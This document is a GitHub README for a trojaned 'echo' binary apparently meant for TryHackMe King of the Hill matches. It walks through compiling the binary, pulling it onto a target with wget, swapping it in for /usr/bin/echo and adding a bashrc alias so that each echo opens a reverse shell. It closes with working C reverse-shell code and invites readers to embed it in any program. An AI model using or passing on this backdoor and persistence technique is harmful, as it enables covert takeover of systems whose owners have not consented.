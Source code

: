 # Malicious Binary - echo for KoTH | TryHackMe



##  What does it do? <br />

1. This custom-echo will give you a reverse shell on a custom port that you set as PORT in the c code.
2. How is works is, whenever somebody runs an echo command on the machine in which you planted your custom-echo, it will send you a reverse shell! :shipit:<br />
3. This can be used in multiple ways, but in this case, we are using a reverse shell c code embedded in the raw echo.c code, that you can obtain via GitHub. (Linux, open-source! Yay.)

---------------
### How to use it?<br />

  - first, let's clone the repo:<br />
    
     ```bash
     git clone https://github.com/hoodietramp/custom-echo
     ```

  - now let's `cd` into it:<br />

     ```
     cd custom-echo
     ```

  - now, we got to compile it first:<br />

     ```
     gcc -o custom-echo custom-echo.c
     ```
     > You can also add static flag to compile it on your machine and have it ready to use on almost all linux machines.
     ```
     gcc -o custom-echo custom-echo.c --static
     ```

  - give it executable permissions:<br />
    
     ```
     chmod +x custom-echo
     ```
     
  - Now transfer it to the machine, in which you want to use it:<br />

     - [x] start a python server in your machine 

     - [x]  ```python3 -m http.server 80```

     - [x] Now, on the target machine,
         ``` wget LOCAL-IP/custom-echo; chmod +x custom-echo```
     
     - [x] This is potentially machine breaking, as we will be swapping our malicious binary with the default echo on the machine. 
       DO NOT TRY THIS ON YOUR OWN MACHINE.
       
       ```mv `which echo` /tmp/.tmpecho; cp custom-echo /usr/bin/echo```
       
     - [x] but it'll still not work because echo is a shell-built-in, means it doesn't require any external binary to work in Linux<br /> To fix this, use the following commands:
            ```enable -n echo```
            ```echo "alias echo='/usr/bin/echo'" >> ~/.bashrc```
     - [x] Now we're ready to get our reverse shell. Let's see it in action. < 3

-----------------
##### Testing custom-echo:<br />

![image](images/echo.png)

![image](images/nc.png)

------------------

For users who want to play around with this code themselves, you can just take the below snippet and add it as called-function in any c code and compile it using the same process that we used above. (CBA with adding proper includes, if you are in this section, then you likely know how to.)
```C
#include <stdio.h>
#include <unistd.h>
#include <netinet/in.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <arpa/inet.h>

int caller()
{
    struct sockaddr_in sa;
    int s;
    sa.sin_family = AF_INET;
    sa.sin_addr.s_addr = inet_addr("<ip>");
    sa.sin_port = htons(<port>);
    s = socket(AF_INET, SOCK_STREAM, 0);
    connect(s, (struct sockaddr *)&sa, sizeof(sa));
    dup2(s, 0);
    dup2(s, 1);
    dup2(s, 2);
    execl("/bin/bash","bash","-i",0,0);
    return 0;
}
# Obviously call the caller func after some primary function of the code you are adding it in.
```

